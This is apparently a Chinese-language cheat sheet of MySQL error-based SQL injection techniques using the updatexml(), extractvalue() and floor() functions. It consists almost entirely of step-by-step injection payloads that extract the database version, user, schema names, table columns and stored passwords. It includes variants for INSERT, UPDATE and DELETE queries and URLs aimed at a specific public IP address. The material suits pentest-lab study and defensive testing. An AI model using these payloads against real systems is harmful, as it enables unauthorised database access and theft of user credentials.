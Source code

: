 #### 基于函数报错注入(insert,update,delete):

**&lt;u&gt;updatexml()函数原理：原理是第二个参数需要xpath格式的字符串我们传入的参数格式不符合要求时然后就报错&lt;/u&gt;**

##### 流程

1. 爆数据库版本信息k' and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) #
2. 爆数据库当前用户k' and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)#
3. 爆数据库k' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) #
4. 爆表获取数据库表名，输入：k'and updatexml(1,concat(0x7e,(select table\_name from information\_schema.tables where table\_schema='abc'limit 0,1), 0x7e),0)#
5. 爆字段获取字段名，输入：k' and updatexml(1,concat(0x7e,(select column\_name from information\_schema.columns where table\_name='users'limit 2,1), 0x7e),0)#
6. 爆字段内容获取字段内容，输入：k' and updatexml(1,concat(0x7e,(select password from users limit 0,1), 0x7e),0)#

###### insert：

1. 爆表名'or updatexml(1,concat(0x7e,(select table\_name from information\_schema.tables where table\_schema='pikachu' limit 0,1)),0) or'
2. 爆列名' or updatexml(1,concat(0x7e,(select column\_name from information\_schema.columns where table\_name='users'limit 2,1)),0) or'
3. 爆内容' or updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) or' 测试 oldboy'or updatexml(1,concat(0x7e,(命令)),0) or'

###### update ：

(与insert相同)

###### delete：

delete from message where id=56 or updatexml(2,concat(0x7e,(database())),0)

#### extractvalue()函数注入流程

原理和updatexml()差不多

#### 流程

1. 判断闭合?id=1'--+
2. 当前使用数据库?id=1' and extractvalue(1,concat(0x7e,database(),0x7e)) --+
3. 当前使用数据库的表名?id=1' and extractvalue(1,concat(0x7e,(select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),0x7e)) --+
4. 当前使用数据库的列名?id=1' and extractvalue(1,concat(0x7e,(select column\_name from information\_schema.columns where table\_schema=database() and table\_name='users' limit 0,1),0x7e)) --+
5. 获取数据?id=1' and extractvalue(1,concat(0x7e,(select concat(id,':',username,':',password) from users limit 0,1),0x7e)) --+

#### floor函数注入流程：

**&lt;u&gt;floor函数注入原理是插入重复主键导致报错&lt;/u&gt;**

##### 流程

1. 判断闭合[http://120.25.24.45:31885/?id=1'--+](https://link.zhihu.com/?target=http%3A//120.25.24.45%3A31885/%3Fid%3D1'--%2B)
2. 判断列数[http://120.25.24.45:31885/?id=1](https://link.zhihu.com/?target=http%3A//120.25.24.45%3A31885/%3Fid%3D1)' order by 3 --+
3. 获取当前数据库[http://120.25.24.45:31885/?id=1](https://link.zhihu.com/?target=http%3A//120.25.24.45%3A31885/%3Fid%3D1)' union select 1,count(\*),concat(database(),floor(rand(14)\*2)) as x from information\_schema.tables group by x--+
4. 获取当前数据库表名[http://120.25.24.45:31885/?id=1](https://link.zhihu.com/?target=http%3A//120.25.24.45%3A31885/%3Fid%3D1)' union select 1,count(\*),concat((select group\_concat(table\_name) from information\_schema.tables where table\_schema=database()),floor(rand(14)\*2)) as x from information\_schema.tables group by x--+
5. 获取某张表的列名[http://120.25.24.45:31885/?id=1](https://link.zhihu.com/?target=http%3A//120.25.24.45%3A31885/%3Fid%3D1)' union select 1,count(\*),concat((select group\_concat(column\_name) from information\_schema.columns where table\_schema=database() and table\_name='表名'),floor(rand(14)\*2)) as x from information\_schema.tables group by x--+
